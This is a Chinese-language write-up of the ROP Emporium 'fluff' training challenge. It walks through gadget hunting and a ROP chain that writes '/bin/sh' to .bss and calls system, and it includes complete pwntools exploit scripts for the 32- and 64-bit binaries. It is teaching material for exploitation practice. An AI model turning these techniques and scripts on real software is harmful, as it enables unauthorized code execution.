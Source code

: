 ```yaml
---
title: ROP Emporium の fluff
date: 2020-06-10 09:35:57
categories:
- WriteUPs
- ROP Emporium
tags:
- PWN
- ROP
- Stack
---
```

## Introduction

&emsp;&emsp;[ROP Emporium](https://ropemporium.com)训练5：fluff的解析。

<!-- more -->

## fluff32

### Step 1

&emsp;&emsp;程序正常运行截图：

![](/img/fluff/fluff1.png)

&emsp;&emsp;checksec：

![](/img/fluff/fluff2.png)

### Step 2

&emsp;&emsp;依然是pwnme中fgets函数存在溢出：

![](/img/fluff/fluff3.png)

&emsp;&emsp;虽然程序中有system函数，但是没有可利用的字符串：

![](/img/fluff/fluff4.png)

&emsp;&emsp;所以需要向内存中写入需要的字符串，再找一下可以实现目标的指令段：

![](/img/fluff/fluff5.png)

&emsp;&emsp;也没有可以利用的指令段，似乎陷入死局？

### Step 3

&emsp;&emsp;其实还是有一条路可以走的，在[XMAN level3 の Write-Up](https://coldwave96.github.io/2020/05/20/XMAN-level3/)中我们通过泄露writes函数在got表上的地址得到libc的基地址，然后通过libc中的字符串getshell。这里我们依然可以使用ret2libc技术，泄露puts函数在got表上的地址，获取libc的基地址，然后用这个基地址加上’/bin/sh’在libc中的offset，调用system函数getshell。

&emsp;&emsp;但是根据题目的叙述，似乎是在让我们尝试强行写入需要的字符串，那我们只能回到程序，再仔细的找找可用的gadget了。

&emsp;&emsp;不妨逆向思维倒推一下，我们需要写内存的操作，那么肯定要mov [reg]，reg；ret的结构：

![](/img/fluff/fluff6.png)

&emsp;&emsp;这个函数是可以实现，首先考虑控制写入的地址，那么往前推我们需要控制ecx寄存器，给ecx赋值：

![](/img/fluff/fluff7.png)

&emsp;&emsp;xchg指令是交换两个寄存器的值，那么从上面的函数中截取部分是可以实现给ecx赋值的，但是我们就要改为控制edx寄存器：

![](/img/fluff/fluff8.png)

&emsp;&emsp;* 这段指令会将edx和ebx异或的值放入edx。所以我们需要pop edx；xor ebx，ebx；或者pop ebx；xor edx，edx；（A异或0仍为A）

![](/img/fluff/fluff9.png)

&emsp;&emsp;所以还需要pop ebx；ret：

![](/img/fluff/fluff10.png)

&emsp;&emsp;完美，前半部分控制内存地址的ropchain已经补充完成。下面是控制字符串的写入，也是从sub_8048692函数开始，倒推需要控制edx。

&emsp;&emsp;依然没有直接pop edx的指令，只能选择间接的xor edx，ebx；

&emsp;&emsp;和上面一样需要pop edx；xor ebx，ebx；或者pop ebx；xor edx，edx；

&emsp;&emsp;于是回到上面的sub_8048670函数，最后依然是pop ebx；ret；

&emsp;&emsp;最终实现控制写入的字符串，下面做一个草图帮助一下理解以及EXP的编写：

![](/img/fluff/fluff11.png)

### Step 4

&emsp;&emsp;最后就是EXP的编写：

```Python
* from pwn import *
* 
* sh = process('./fluff32')
* elf = ELF('./fluff32')
* 
* pop_ebx_addr = 0x080483e1
* xor_edx_edx_addr = 0x08048671
* xor_edx_ebx_addr = 0x0804867b
* xchg_addr = 0x08048689
* mov_addr = 0x08048693
* 
* bss_addr = 0x0804a040
* sys_addr = elf.symbols['system']
* 
* def mov_data(string, addr):
*     payload = p32(pop_ebx_addr) + p32(addr)
*     payload += p32(xor_edx_edx_addr) + p32(0xdeadbeef)
*     payload += p32(xor_edx_ebx_addr) + p32(0xdeadbeef)
*     payload += p32(xchg_addr) + p32(0xdeadbeef)
*     payload += p32(pop_ebx_addr) + string
*     payload += p32(xor_edx_edx_addr) + p32(0xdeadbeef)
*     payload += p32(xor_edx_ebx_addr) + p32(0xdeadbeef)
*     payload += p32(mov_addr) + p32(0xdeadbeef) + p32(0)
*     return payload
* 
* payload = 'a' * (0x28 + 0x4)
* payload += mov_data('/bin', bss_addr)
* payload += mov_data('/sh\x00', bss_addr + 4)
* payload += p32(sys_addr) + p32(0xdeadbeef) + p32(bss_addr)
* 
* sh.recvuntil('>')
* sh.sendline(payload)
* 
* sh.interactive()
* sh.close()
```

&emsp;&emsp;EXP运行结果：

![](/img/fluff/fluff12.png)

## fluff

&emsp;&emsp;像32位程序一样寻找完整的ROP Chain：

![](/img/fluff/fluff13.png)

&emsp;&emsp;加上控制r12寄存器的指令段：

![](/img/fluff/fluff14.png)

&emsp;&emsp;以及调用system函数传参的时候需要控制rdi寄存器：

![](/img/fluff/fluff15.png)

&emsp;&emsp;万事俱备，直接给出EXP脚本：

```Python
* from pwn import *
* 
* sh = process('./fluff')
* elf = ELF('./fluff')
* 
* bss_addr = 0x601060
* sys_addr = elf.symbols['system']
* 
* mov_addr = 0x40084e
* xchg_addr = 0x400840
* xor_r11_r12_addr = 0x40082f
* xor_r11_r11_addr = 0x400822
* pop_addr = 0x4008bc
* 
* pop_rdi_addr = 0x4008c3
* 
* payload = 'a' * (0x20 + 0x8)
* payload += p64(pop_addr) + p64(bss_addr) + p64(0) + p64(0) + p64(0)
* payload += p64(xor_r11_r11_addr) + p64(0)
* payload += p64(xor_r11_r12_addr) + p64(0)
* payload += p64(xchg_addr) + p64(0)
* 
* payload += p64(pop_addr) + '/bin/sh\x00' + p64(0) + p64(0) + p64(0)
* payload += p64(xor_r11_r11_addr) + p64(0)
* payload += p64(xor_r11_r12_addr) + p64(0)
* payload += p64(mov_addr) + p64(0) + p64(0)
* 
* payload += p64(pop_rdi_addr) + p64(bss_addr)
* 
* payload += p64(sys_addr)
* 
* sh.recvuntil('>')
* sh.sendline(payload)
* 
* sh.interactive()
* sh.close()
```

&emsp;&emsp;EXP运行结果：

![](/img/fluff/fluff16.png)